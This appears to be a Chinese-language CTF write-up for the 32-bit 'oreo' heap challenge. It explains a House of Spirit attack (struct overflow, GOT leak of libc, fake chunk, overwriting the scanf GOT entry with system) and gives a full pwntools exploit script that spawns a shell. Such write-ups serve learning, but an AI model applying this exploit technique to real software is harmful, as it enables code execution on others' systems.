

House of Spirit，32位的堆题

<!-- more -->

## orea

通过做题学习一下House of Spirit。

这是一个32位的堆题。

结构体rifle

```c
struct rifle
{
    char description[0x19];
    char name[0x1b]
    rifle* pre;
}
```

主要的漏洞在new功能处，在写入description和name时均有溢出，可以写入0x38byte，借此可以控制指针pre。

通过控制pre指针为__isoc99_scanf的got表地址-0x19，使用show_rifles功能可以输出其got表项的内容，从而泄露libc。

之后便是利用House of Spirit，来申请fake chunk到notice附近，通过修改notice获得任意写。

伪造fake chunk重点是要绕过free的检查，这里fake chunk的构造可以选择0x0804A2A0处，可以通过修改count来修改size，并且该chunk的地址也对齐了，同时next chunk的size可以通过leave_rifles进行改写，原来的notice指向0x0804A2C0所以可以写到后面。



构造好fake chunk后，先利用溢出改写pre指针指向fake chunk，然后调用order进行释放。由于其LIFO的特点，我们下一次malloc即可malloc到fake chunk。notice就在user data部分，直接写入description即可改写notice实现任意写。

得到任意写后可以改写__isoc99_scanf的GOT表项为system。现在只要在Action: 后面输入/bin/sh即可get shell。

exp:

```python
from pwn import*
context(log_level='debug',os='linux',arch='i386')
elf=ELF("./oreo2")
libc=ELF("./libc-2.23.so")
p=process("./oreo2",stdin=PTY)#有了这个才行
#By default, a pipe is used. A pty can be used instead by setting this to PTY
#默认情况下通过管道输入，让stdin=PTY可以使用一个伪终端输入，借此可以recv()更多？
#不加stdin=PTY只能recv()到Exit!\n

def add(name, descr):
	p.recvuntil('Action: ')
	p.sendline('1')
	p.recvuntil("name: ")
	p.sendline(name)
	p.recvuntil("description: " )
	p.sendline(descr)

def show_rifles():
	p.recvuntil("Action: ")
	p.sendline("2")
	p.recvuntil("Name: ")

def free():
	p.recvuntil("Action: ")
	p.sendline("3")

def leave(message):
	p.recvuntil("Action: ")
	p.sendline("4")
	p.recvuntil("order: ")
	p.sendline(message)

def debug():
	gdb.attach(p)
	pause()

#print(hex(elf.got['puts']))
sscanf=0x0804A258

#leak libc
payload1='a'*0x1b+p32(sscanf-0x19)
add(payload1,'aaaa')
show_rifles()

p.recvuntil("Name: ")
#print(u32(p.recv(4)))
libcbase=u32(p.recv(4))-libc.sym['__isoc99_sscanf']
print("[*]libcbase: {:}".format(hex(libcbase)))

#use House of Spirit to overwrite notice

fake_chunk=0x0804A2A0


for i in range(0x40-1):#add count
	add('a','b')

payload2='a'*0x1b+p32(fake_chunk+0x8)
add(payload2,'a1ph0nse')

msg='\x00'*0x24+p32(0x41)
leave(msg)#overwrite the next chunk of fake chunk

free()


add('asd',p32(elf.got['__isoc99_sscanf']))#malloc fake chunk and overwrite __isoc99_scanf


#get shell
msg2=libcbase+libc.sym['system']

leave(p32(msg2))#overwrite __isoc00_scanf to system

p.recvuntil('Action: ')
p.sendline('/bin/sh\x00')


#debug()

p.interactive()
```